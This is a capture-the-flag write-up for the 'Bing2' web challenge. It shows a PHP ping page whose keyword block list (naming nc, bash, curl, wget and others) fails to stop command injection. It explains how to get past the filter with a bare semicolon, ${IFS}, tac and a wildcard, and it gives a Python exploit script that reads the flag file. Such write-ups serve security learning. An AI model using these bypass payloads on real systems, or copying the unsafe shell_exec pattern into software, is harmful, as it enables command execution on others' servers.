 # Web/Bing2

## Description

Attachments: [Bing2.zip](./Bing2.zip)

## Challenge Overview

In this challenge we were given a simple website that served a static page. Checking the source code we find that we can also access `/bing.php`.

bing.php

```php
<?php

if (isset($_POST['Submit'])) {
	$target = trim($_REQUEST['ip']);

	$substitutions = array(
		' ' => '',
		'&'  => '',
		'&&' => '',
		'('  => '',
		')'  => '',
		'-'  => '',
		'`'  => '',
		'|' => '',
		'||' => '',
		'; ' => '',	
		'%' => '',
		'~' => '',
		'<' => '',
		'>' => '',
		'/ ' => '',
		'\\' => '',
		'ls' => '',
        'cat' => '',
        'less' => '',
        'tail' => '',
        'more' => '',
        'whoami' => '',
        'pwd' => '',
        'busybox' => '',
        'nc' => '',
        'exec' => '',
        'sh' => '',
        'bash' => '',
        'php' => '',
        'perl' => '',
        'python' => '',
        'ruby' => '',
        'java' => '',
        'javac' => '',
        'gcc' => '',
        'g++' => '',
        'make' => '',
        'cmake' => '',
        'nmap' => '',
        'wget' => '',
        'curl' => '',
        'scp' => '',
        'ssh' => '',
        'ftp' => '',
        'telnet' => '',
        'dig' => '',
        'nslookup' => '',
        'iptables' => '',
        'chmod' => '',
        'chown' => '',
        'chgrp' => '',
        'kill' => '',
        'killall' => '',
        'service' => '',
        'systemctl' => '',
        'sudo' => '',
        'su' => '',
        'flag' => '',
	);

	$target = str_replace(array_keys($substitutions), $substitutions, $target);

	if (stristr(php_uname('s'), 'Windows NT')) {
		$cmd = shell_exec('ping  ' . $target);
	} else {
		$cmd = shell_exec('ping  -c 4 ' . (string)$target);
        echo $cmd;
		
	}
}
```

This is a simple program. It looks for the `ip` data in our `POST` request and then filters various shell commands in order to prevent us from being able to execute command. And once its done with the filters it pings our given ip using `$cmd = shell_exec('ping  -c 4 ' . (string)$target);`. 

We had to find a way to bypass the filters. If you notice carefully, the filter checks for `; ` instead of `;` (notice the space). Which means `;` would not be detected by the filter, thus we can use to execute our commands. 

It is also filtering out spaces for which we can easily bypass using `${IFS}`.

Now, in order to read the flag we need to use something like `cat` but that is also blocked. We can use another command called `tac` here which was not blocked (there must be many other commands, I found this one when I was going through the previous year web challenges of DeadSecCTF [here](https://www.youtube.com/watch?v=G05F5YCiNYM)).

And for bypassing the `flag` filter we can replace it with `fl?g` which will also still print the flag for us.

## Exploit

Thus we can get the flag using this exploit.

exploit.py

```py
import requests

baseURL = "" # Your instance URL here (like https://01189cd339ea3f516f735c83.deadsec.quest)
def bing(cmd):
    url =  baseURL + '/bing.php'
    sendData = {"ip": cmd, "Submit": "Submitted"}
    r = requests.post(url, data=sendData)
    return r

exploit = ";${IFS}tac${IFS}/fl?g.txt"
print(bing(exploit).text)
```